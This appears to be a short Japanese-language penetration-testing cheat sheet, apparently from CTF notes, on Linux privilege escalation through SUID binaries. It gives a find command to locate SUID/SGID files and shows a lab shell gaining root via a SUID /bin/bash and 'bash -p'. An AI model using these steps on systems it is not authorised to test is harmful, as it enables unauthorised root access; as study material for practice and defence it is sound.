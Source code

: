 ## general
#### Search
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
  - SUIDファイルを実行すると、ファイル所有者の権限で実行される
  - SGIDファイルを実行すると、ファイルの属するグループの権限で実行される
## bash
#### Search
- `ls -l /bin/bash`
  - example
    ```
    www-data@cronos:/var/www/laravel$ ls -l /bin/bash
    -rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
    ```
#### Escalation
- `bash -p`
  - exsample
    ```
    www-data@cronos:/var/www/laravel$ bash -p
    bash-4.3# whoami
    root
    ``` 

